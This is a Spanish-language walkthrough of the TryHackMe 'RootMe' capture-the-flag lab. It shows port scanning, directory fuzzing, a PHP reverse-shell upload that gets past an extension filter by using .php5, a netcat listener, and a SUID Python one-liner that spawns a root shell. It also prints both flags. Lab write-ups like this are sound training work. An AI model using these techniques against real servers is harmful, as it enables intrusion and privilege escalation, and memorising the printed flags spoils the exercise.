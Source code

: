 # RootMe

## Escaneo de puertos

Ejecutamos un mapeo de puertos con`nmap`para obtener todos los puertos y servicios abiertos de la máquina vulnerable.

```
sudo nmap -sV -T4 -p- 10.10.66.233
```

Tenemos ssh y http (Apache) como puertos abiertos disponibles.

![[Hacking_Etico/TryHackMe_WriteUps/RootMe/images/image.png]]

## Enumeración web

Usamos el comando`gobuster`para hacer fuzzing y obtener más directorios ocultos en la página web.

```
gobuster dir -u 10.10.66.233 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

De momento encontramos dos directorios potenciales,`/uploads`y`/panel`.

![[Hacking_Etico/TryHackMe_WriteUps/RootMe/images/image-1.png]]

![[Hacking_Etico/TryHackMe_WriteUps/RootMe/images/image-2.png]]

## Reverse shell

Vamos a buscar una forma de obtener una reverse shell y obtener la flag.

https://github.com/pentestmonkey/php-reverse-shell

En esta página copiamos el contenido del fichero`php-reverse-shell.php`en otro que vamos a crear en nuestro sistema llamado`shell.php`.

![[Hacking_Etico/TryHackMe_WriteUps/RootMe/images/image-3.png]]

Modificamos el parámetro de`$ip` (nuestra IP en kali) en el fichero.

![[Hacking_Etico/TryHackMe_WriteUps/RootMe/images/image-4.png]]

Subimos el fichero a la página pero no permite subir archivos`.php`.

![[Hacking_Etico/TryHackMe_WriteUps/RootMe/images/image-5.png]]

Probamos con`.php2`, `.php3`,`.php4`,`.php5`porque buscando en Google podemos que los archivos php pueden ir con distintas extensiones. Funciona renombrando el fichero a`.php5`.

![[Hacking_Etico/TryHackMe_WriteUps/RootMe/images/image-6.png]]

Iniciamos el puerto 1234 en escucha en nuestra terminal.

```
nc -lvnp 1234
```

![[Hacking_Etico/TryHackMe_WriteUps/RootMe/images/image-7.png]]

En`/uploads`está el fichero que hemos subido.

![[Hacking_Etico/TryHackMe_WriteUps/RootMe/images/image-8.png]]

Hacemos clic en él y estamos dentro.

![[Hacking_Etico/TryHackMe_WriteUps/RootMe/images/image-9.png]]

En el fichero de apache está la flag del user.

![[Hacking_Etico/TryHackMe_WriteUps/RootMe/images/image-10.png]]

```
THM{y0u_g0t_a_sh3ll}
```

## Escalada de privilegios

Buscamos un archivo con permisos de SUID en el sistema con el siguiente comando:

```
find / -user root -perm /4000 2>/dev/null
```

El fichero`/usr/bin/python`puede ser interesante.

![[Hacking_Etico/TryHackMe_WriteUps/RootMe/images/image-11.png]]

Buscamos en la siguiente página para saber como explotar binarios de Python con SUID:

https://gtfobins.github.io/

![[Hacking_Etico/TryHackMe_WriteUps/RootMe/images/image-12.png]]

Ejecutamos el siguiente payload:

```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Y ya somos root en el sistema.

![[Hacking_Etico/TryHackMe_WriteUps/RootMe/images/image-13.png]]

Obtenemos la flag del root.

![[Hacking_Etico/TryHackMe_WriteUps/RootMe/images/image-14.png]]

```
THM{pr1v1l3g3_3sc4l4t10n}
```

















